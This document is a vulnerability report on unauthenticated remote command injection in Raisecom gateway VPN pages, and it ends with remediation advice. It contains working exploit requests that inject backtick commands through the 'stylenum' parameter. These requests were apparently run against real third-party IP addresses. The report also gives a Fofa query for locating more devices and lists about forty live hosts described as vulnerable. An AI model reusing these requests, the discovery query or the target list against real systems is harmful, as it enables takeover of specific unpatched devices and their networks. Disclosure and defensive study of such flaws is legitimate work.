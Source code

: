 ## Vulnerability Title
Remote Command Execution Vulnerability in Raisecom Multi-Service Intelligent Gateway vpn_template_style.php.

## Vulnerability Overview
The `/vpn/vpn_template_style.php` interface in the Raisecom Multi-Service Intelligent Gateway is vulnerable to remote command execution. An attacker can exploit this vulnerability by crafting a malicious request parameter `stylenum` and injecting system commands using backticks (`) or pipe symbols (|). This bypasses security mechanisms, allowing the execution of arbitrary commands on the target device (e.g., writing files, executing system operations). The vulnerability can be exploited without authentication and affects multiple asset instances. Verified affected addresses include [http://177.221.184.71](http://177.221.184.71) and [http://112.28.53.207:8090](http://112.28.53.207:8090).

## Vulnerability Proof
### (1) Vulnerability Reproduction
#### Reproduction 1
+ **Target IP**: [http://177.221.184.71](http://177.221.184.71)
+ **POC**:

```plain
GET /vpn/vpn_template_style.php?mySubmit=true&stylenum=%60echo+-e+\\\'123\\\'%3E/www/tmp/test123123.txt%60 HTTP/1.1
Host: 177.221.184.71
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:50.0)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
```

**Verification Result**:

+ The request successfully triggers command execution, writing the file `/www/tmp/test123123.txt`.
+ ![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1739025233630-f0ceb5c6-8eb5-4690-a3ad-381f4f5689cf.png)
+ Accessing [http://177.221.184.71/tmp/test123123.txt](http://177.221.184.71/tmp/test123123.txt) confirms the file content is "123" (see screenshot).
+ ![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1739028312065-f2260e49-5922-42d0-959d-3cc30566b2b5.png)

#### Reproduction 2
+ **Target IP**: [http://112.28.53.207:8090](http://112.28.53.207:8090)
+ **POC**:

```plain
GET /vpn/vpn_template_style.php?mySubmit=true&stylenum=%60echo+-e+\'123\'%3E/www/tmp/test123123.txt%60 HTTP/1.1
Host: 112.28.53.207:8090
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:50.0)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
```

+ The command is executed, and the file is written. A 200 response indicates successful execution.
+ ![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1739028318030-30443209-9f11-4736-aeeb-90b57c2543af.png)
+ Accessing [http://112.28.53.207:8090/tmp/test123123.txt](http://112.28.53.207:8090/tmp/test123123.txt) confirms the file content is "123" (see screenshot).
+ ![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1739028326917-fadda49d-010b-47e2-8ef7-806586b8327b.png)

#### Reproduction 3
+ **Target IP**: [http://138.185.143.32](http://138.185.143.32)
+ **POC**:

```plain
GET /vpn/vpn_template_style.php?mySubmit=true&stylenum=%60echo+-e+\'123\'%3E/www/tmp/test123123.txt%60 HTTP/1.1
Host: 138.185.143.32
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:50.0)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
```

+ Manual verification confirms the command execution.
+ ![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1739028333927-bda7162a-b7b6-4893-a1e2-66f80c0b0b27.png)
+ Accessing [http://138.185.143.32/tmp/test123123.txt](http://138.185.143.32/tmp/test123123.txt) confirms the file content is "123" (see screenshot).
+ ![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1739028339066-746c16ea-85af-4641-98c0-b7f26f1aaaca.png)

### (2) Verified Affected Addresses
Partially verified affected addresses:

+ [http://177.221.184.71](http://177.221.184.71)
+ [http://112.28.53.207:8090](http://112.28.53.207:8090)
+ [http://138.185.143.32](http://138.185.143.32)
+ [https://168.194.36.176/vpn/vpn_template_style.php](https://168.194.36.176/vpn/vpn_template_style.php)
+ [http://191.36.225.86/vpn/vpn_template_style.php](http://191.36.225.86/vpn/vpn_template_style.php)

For the complete list, refer to the end of the document.

### (3) Asset Ownership Proof
The following methods confirm asset ownership by Raisecom Technology Development Co., Ltd.:

+ Accessing [http://ip/down.php](http://ip/down.php) reveals device manufacturer information.
+ ![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1739028352712-fe47eefd-5a67-4980-be98-fdc85af9061f.png)
+ Fofa search syntax: `body="/images/raisecom/back.gif" && title=="Web user login"` locates target assets.
+ ![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1739028358607-af5471f6-678f-4e48-a29d-93b05301edbb.png)
+ Third-party security company (Knownsec) published vulnerability analysis reports. The report from Knownsec's security intelligence platform confirms asset ownership before releasing the vulnerability details.`https://mp.weixin.qq.com/s/iSfsiXFgaPLHtRPATslzUw`
+ ![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1739028366283-a9af1cdd-0695-4a37-a3ef-a4f2217b4c11.png)
+ ![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1739028371561-3af7a6b3-7d4a-46e2-8a53-906773184f2c.png)

## Vulnerability Impact
1. **Complete Device Control**: Attackers can execute arbitrary system commands, taking full control of the gateway device.
2. **Data Leakage**: Command injection can read sensitive configuration files, user credentials, or network topology information.
3. **Service Disruption**: Malicious commands may cause device reboots, service crashes, or configuration tampering.
4. **Internal Network Penetration**: Compromised devices can be used as a springboard to attack other internal systems, expanding the attack scope.
5. **Compliance Risks**: The vulnerability may violate the "Cybersecurity Law" or industry security standards, leading to legal liabilities.

## Remediation Strategies
1. **Input Filtering and Parameter Whitelisting**:
    - Strictly filter the `stylenum` parameter, prohibiting special characters like backticks (`) and pipe symbols (|).
    - Only allow legitimate values that conform to business logic (e.g., predefined style numbers).
2. **Code-Level Fixes**:
    - Use secure functions (e.g., `escapeshellarg()`) to handle external inputs, avoiding direct command concatenation.
    - Remove or disable unnecessary command execution functions in `vpn_template_style.php`.
3. **Least Privilege Principle**:
    - Run the web service process with a low-privilege account, prohibiting system administrator privileges.
4. **Deploy Web Application Firewall (WAF)**:
    - Configure rules to block requests containing sensitive keywords like `echo`, `>`, and backticks.
5. **Firmware Updates and Vulnerability Monitoring**:
    - Promptly apply firmware patches released by the vendor.
    - Use vulnerability scanning tools (e.g., Nuclei, Nessus) to regularly assess device security.
6. **Emergency Response Measures**:
    - Immediately take the affected interface offline and investigate whether the device has been compromised.
    - Reset device administrator passwords and audit logs to identify potential attack traces.

**Note**: It is recommended to track vulnerability remediation progress through platforms like CNVD/CVE to ensure comprehensive risk elimination.

## Attachments
### (1) Partial IP Assets
+ [https://168.194.36.176/vpn/vpn_template_style.php](https://168.194.36.176/vpn/vpn_template_style.php)
+ [http://191.36.225.86/vpn/vpn_template_style.php](http://191.36.225.86/vpn/vpn_template_style.php)
+ [http://138.185.141.191/vpn/vpn_template_style.php](http://138.185.141.191/vpn/vpn_template_style.php)
+ [https://221.207.5.42/vpn/vpn_template_style.php](https://221.207.5.42/vpn/vpn_template_style.php)
+ [http://112.27.90.154:8088/vpn/vpn_template_style.php](http://112.27.90.154:8088/vpn/vpn_template_style.php)
+ [https://123.138.105.106:9090/vpn/vpn_template_style.php](https://123.138.105.106:9090/vpn/vpn_template_style.php)
+ [https://116.177.32.7/vpn/vpn_template_style.php](https://116.177.32.7/vpn/vpn_template_style.php)
+ [https://116.177.32.9/vpn/vpn_template_style.php](https://116.177.32.9/vpn/vpn_template_style.php)
+ [https://221.207.5.16/vpn/vpn_template_style.php](https://221.207.5.16/vpn/vpn_template_style.php)
+ [https://221.11.104.76/vpn/vpn_template_style.php](https://221.11.104.76/vpn/vpn_template_style.php)
+ [https://201.201.155.193/vpn/vpn_template_style.php](https://201.201.155.193/vpn/vpn_template_style.php)
+ [https://221.207.5.29/vpn/vpn_template_style.php](https://221.207.5.29/vpn/vpn_template_style.php)
+ [https://201.201.150.9/vpn/vpn_template_style.php](https://201.201.150.9/vpn/vpn_template_style.php)
+ [https://138.185.143.144/vpn/vpn_template_style.php](https://138.185.143.144/vpn/vpn_template_style.php)
+ [http://131.100.64.152](http://131.100.64.152)
+ [http://221.207.52.140](http://221.207.52.140)
+ [http://201.205.119.10](http://201.205.119.10)
+ [https://124.152.40.208](https://124.152.40.208)
+ [https://112.28.62.112:8091](https://112.28.62.112:8091)
+ [http://117.162.137.25:8090](http://117.162.137.25:8090)
+ [http://120.206.197.188:8090](http://120.206.197.188:8090)
+ [https://139.170.141.87](https://139.170.141.87)
+ [http://200.124.184.46](http://200.124.184.46)
+ [http://111.38.250.34:8117](http://111.38.250.34:8117)
+ [http://60.174.38.36:8889](http://60.174.38.36:8889)
+ [https://139.170.141.73](https://139.170.141.73)
+ [https://124.152.40.212](https://124.152.40.212)
+ [https://139.170.141.77](https://139.170.141.77)
+ [http://138.185.141.186:1024](http://138.185.141.186:1024)
+ [https://112.28.94.62:8091](https://112.28.94.62:8091)
+ [http://111.12.195.166:9300](http://111.12.195.166:9300)
+ [https://221.199.18.186:4443](https://221.199.18.186:4443)
+ [http://112.31.174.87:8117](http://112.31.174.87:8117)
+ [http://201.205.108.86](http://201.205.108.86)
+ [http://115.150.63.10:8090](http://115.150.63.10:8090)
+ [http://112.26.239.148:8117](http://112.26.239.148:8117)
+ [https://177.190.76.133](https://177.190.76.133)
+ [https://139.170.141.90](https://139.170.141.90)

